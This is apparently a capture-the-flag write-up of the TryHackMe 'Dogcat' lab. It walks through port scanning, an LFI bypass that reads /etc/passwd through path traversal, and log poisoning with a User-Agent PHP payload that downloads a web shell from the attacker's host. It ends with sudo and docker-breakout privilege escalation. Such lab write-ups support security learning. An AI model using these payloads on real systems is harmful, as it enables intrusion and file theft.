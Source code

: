 ----------------------

### CTF: TRYHACKME
### Lab: Dogcat

-----------------------

![image](https://github.com/user-attachments/assets/9e026169-7b8f-4b5f-bbd4-64e3fe85b38b)

-----------------------

### RECONNAISSANCE

- Rustscan's output

      ❯ rustscan -a 10.10.144.255 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.144.255:22
      Open 10.10.144.255:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 16:39 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 16:39
      Completed NSE at 16:39, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 16:39
      Completed NSE at 16:39, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 16:39
      Completed NSE at 16:39, 0.00s elapsed
      Initiating Ping Scan at 16:39
      Scanning 10.10.144.255 [2 ports]
      Completed Ping Scan at 16:39, 0.58s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 16:39
      Completed Parallel DNS resolution of 1 host. at 16:39, 0.39s elapsed
      DNS resolution of 1 IPs took 0.40s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 16:39
      Scanning 10.10.144.255 [2 ports]
      Discovered open port 22/tcp on 10.10.144.255
      Discovered open port 80/tcp on 10.10.144.255
      Completed Connect Scan at 16:39, 0.36s elapsed (2 total ports)
      Initiating Service scan at 16:39
      Scanning 2 services on 10.10.144.255
      Completed Service scan at 16:39, 6.85s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.144.255.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 16:39
      NSE Timing: About 99.30% done; ETC: 16:39 (0:00:00 remaining)
      Completed NSE at 16:40, 39.84s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 16:40
      Completed NSE at 16:40, 1.94s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 16:40
      Completed NSE at 16:40, 0.00s elapsed
      Nmap scan report for 10.10.144.255
      Host is up, received syn-ack (0.53s latency).
      Scanned at 2024-08-26 16:39:18 EDT for 50s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
      |   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
      |   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I
      80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
      |_http-server-header: Apache/2.4.38 (Debian)
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      |_http-title: dogcat
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- Ffuf's output

![image](https://github.com/user-attachments/assets/05a325c9-132b-441d-b130-9cdbd5bc0d3a)

----------------------------

### LFI Bypass

- Checking through the source page, I discovered this `?view=` parameter that takes in the value `dog`. A lot can go wrong here e.g LFI,sqli e.tc. I decided
to test for LFI first, maybe the the `view` word focuses on viewing files. I tried to read the `passwd` file with absolute file `/etc/passwd` but it pops out an error.
 " only cats and dogs files".

![image](https://github.com/user-attachments/assets/c430eb81-09da-4c2e-b17b-6808a907d9fd)

- I focused on the idea that one of the words `dogs` and `cat` must be in the file path.Then,I tried this path

  Path-: ```dogs/../index.php```

![image](https://github.com/user-attachments/assets/3ffbd0e3-8322-48eb-95a5-517d173d9737)

- The code adds an extension to the file path which forces our file name to be `index.php.php`. A workaround willl just be using the characters
`index` only.I got the code contents with `php://filter/convert.base64-encode/resource=` filter to get base64 encoded contents.

![image](https://github.com/user-attachments/assets/d1e0ab90-2bea-4e33-afbb-36610672e863)

### Understanding the code

- Code

       <?php
                  function containsStr($str, $substr) {
                      return strpos($str, $substr) !== false;
                  }
                  $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
                  if(isset($_GET['view'])) {
                      if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                          echo 'Here you go!';
                          include $_GET['view'] . $ext;
                      } else {
                          echo 'Sorry, only dogs or cats are allowed.';
                      }
                  }
              ?>

- The code requires 2 queries `view` and `ext`.`View` receives the filepath and `ext` contains the file path.The code uses the default `.php` if
query `ext` is not added to the request. The code also checks if `dogs` or `cats` is included in the filepath before it passes to include() to include the file.
We can bypass the extension check by setting an empty `ext` query.I tested this by reading `/etc/passwd` and it worked.

 Query-:```?view=dogs/../../../../etc/passwd&ext=```

![image](https://github.com/user-attachments/assets/d3b9719e-2013-45e7-9044-a73cebb922f3)


-------------------------

### LFI2RCE via log poisoning

-  I was able to reed apache log `/var/log/apache2/access.log`

![image](https://github.com/user-attachments/assets/b9b7d0cb-92a4-4bb6-b02b-63638277f0db)

- We can escalate this poisoning the `User-Agent` header of any request. You can use the php shell code to upload your php shell code hosted on a server.Use curl to make it easier,I suggest you upload a pentestmonkey php reverse shell.

Code-:```"User-Agent: <?php file_put_contents('/var/www/html/shell.php',file_get_contents('http://10.8.158.229:8000/shell2.php')) ?>```

![image](https://github.com/user-attachments/assets/f9c6e579-5f00-4faf-b030-74beb655b1b1)


- Reverse shell

![image](https://github.com/user-attachments/assets/ca8bf7ea-4cc7-44b2-aa77-935f7781fc87)

--------------------

### Privesc with `env`

- Running `sudo -l` shows the rule that user `www-data` can run binary `env` as root.

![image](https://github.com/user-attachments/assets/bf0a6f99-464a-40a6-a596-ba129e998f86)

- Root shell

![image](https://github.com/user-attachments/assets/86ab149b-3e09-46f0-bda3-2afb13d60d84)

--------------------------

### Host system's root privesc through docker breakout

- The whole environment is a docker container.I ran this [sh file](https://github.com/stealthcopter/deepce) to enumerate for possible vulnerabiliies to escape the container. The script discovered other mounts in the docker container in `/opt/backups`

![image](https://github.com/user-attachments/assets/eb78f880-30db-4f7b-8cf4-da9a3fb5f151)

- The file `backup.sh` contains a bash code which uses tar to create an tar archive of the container and store it in `/backups/backup.tar`. I figured that it might be a root cron job on the host and added a reverse shell to it.

![image](https://github.com/user-attachments/assets/787d752d-8be8-484b-a0ef-a74589e8a1f1)

- My guess was right,I got a reverse shell from the `host` system's user `root`.

![image](https://github.com/user-attachments/assets/886f2260-47b2-4827-95f4-1d30fd21f5c9)

- Rootttt!!!!....

![image](https://github.com/user-attachments/assets/679e3a13-7816-4d8b-909d-a945ff482a7b)


----------------------

### THANKS FOR READING!!!

-----------------------











  





